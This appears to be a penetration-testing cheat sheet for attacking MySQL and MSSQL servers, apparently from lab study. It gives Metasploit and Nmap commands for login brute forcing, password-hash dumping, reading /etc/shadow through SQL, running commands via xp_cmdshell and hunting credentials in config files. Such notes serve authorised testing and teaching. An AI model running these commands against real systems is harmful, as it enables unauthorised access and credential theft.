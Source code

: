 # **MYSQL**

Default port: 3306  
Logging into Mysql on remote host -- ```mysql -h (IP address) -u root -p (password)```

**Using database**  
```show databases ---then type semicolon```  
```use (database name);```  
```select count(*) from authors;```  
```select * from authors```  

**Finding Writable directories**  
Metasploit Module -- scanner/mysql/mysql_writable_dirs  
Finding hashes  -- ```use auxiliary/scanner/mysql/mysql_hashdump```  
Getting the full etc/shadow file -- ```select load_file("/etc/shadow");```

### Metasploit  
#### Modules 
- **auxiliary/scanner/mysql/mysql_version** -- Find Mysql Version
- **auxiliary/scanner/mysql/mysql_login** -- Used for brute force logins. Set PASS_FILE
- **auxiliary/admin/mysql/mysql_enum** -- TO use this, we require credentials
- **auxiliary/admin/mysql/mysql_sql - MOST IMPORTANT** -- allows us to execute SQL queries
  - example queries.
    - show databases; - displays list of all databases
    - use (database name); - sents statement
- **auxiliary/scanner/mysql/mysql_schemadump** -- get a schema of the mysql environment
- **auxiliary/scanner/mysql/mysql_file_enum** --
- **auxiliary/scanner/mysql/mysql_hashdump** --
- **auxiliary/scanner/mysql/mysql_writable_dirs** --

User File -- /usr/share/metasploit-framework/data/wordlists/common_users.txt  
Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  
 
Execute commands -- Login Module -- auxiliary/scanner/mysql_exec  
Enumerate domain accounts -- Login Module -- auxiliary/scanner/mysql/mysql_enum_domain_accounts

# **MSSQL**

Nmap scripts  
```nmap (ip address) -p (port number) --script ms-sql-info```  
```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```  
```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```  
```nmap (ip address) -p (port number) --script ms-empty-password```  
```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```  
```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```  
```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```

# Blackbox testing
1. Check Searchsploit -- ```searchsploit mysql```
2. use module **mysql_login**
3. login -  ```mysql -u root -p (password) -h (Ip address)```
4. show databases;
5. search for files in the directories -- wamp, apps, www
6. Check the wordpress>wp-config.php file for credentials
7. phpmyadmin.config -- this file controls access


